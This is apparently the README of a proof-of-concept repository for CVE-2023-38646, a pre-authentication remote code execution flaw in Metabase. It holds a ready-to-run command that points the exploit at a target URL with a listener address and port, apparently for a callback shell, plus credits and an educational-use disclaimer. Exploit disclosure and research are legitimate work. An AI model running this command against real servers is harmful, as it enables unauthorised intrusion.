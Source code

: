 # Metabase Pre-Auth Remote Code Execution CVE-2023-38646

A proof-of-concept for CVE-2023-38646 Metabase Pre-Auth Remote Code Execution

## Getting Started

### Executing program

* With python3
```
python3 exploit.py -t http://metabase.url/ -l 127.0.0.1 -p 1337
```

## Help

For help menu:
```
python3 exploit.py -h
```

## Acknowledgments

Backstory and Inspiration
* [Original Post](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/)

Idea based on this PoC
* [Metasploit](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/metabase_setup_token_rce.rb)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.